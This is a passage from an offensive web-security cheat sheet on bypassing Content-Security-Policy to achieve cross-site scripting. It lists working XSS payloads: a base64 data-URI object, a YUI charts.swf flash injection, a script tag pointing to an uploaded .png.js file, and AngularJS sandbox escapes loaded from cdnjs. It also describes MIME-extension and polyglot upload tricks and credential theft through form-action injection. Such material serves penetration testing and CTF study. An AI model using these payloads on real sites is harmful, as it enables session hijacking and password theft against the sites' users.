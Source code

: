 Working payloads:

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```

If you can upload a JS file you can bypass this CSP:

Working payload:

```html
"/>'><script src="/uploads/picture.png.js"></script>
```

However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using an extension accepted by the server (like: _script.png_) this won't be enough because some servers like apache server **select MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot ([some polyglot examples here](https://github.com/Polydet/polyglot-database)).

### Form-action

If not possible to inject JS, you could still try to exfiltrate for example credentials **injecting a form action** (and maybe expecting password managers to auto-fill passwords). You can find an [**example in this report**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp). Also, notice that `default-src` does not cover form actions.

### Third Party Endpoints + ('unsafe-eval')

> [!WARNING]
> For some of the following payload **`unsafe-eval` is not even needed**.

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```

Load a vulnerable version of angular and execute arbitrary JS:

```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
```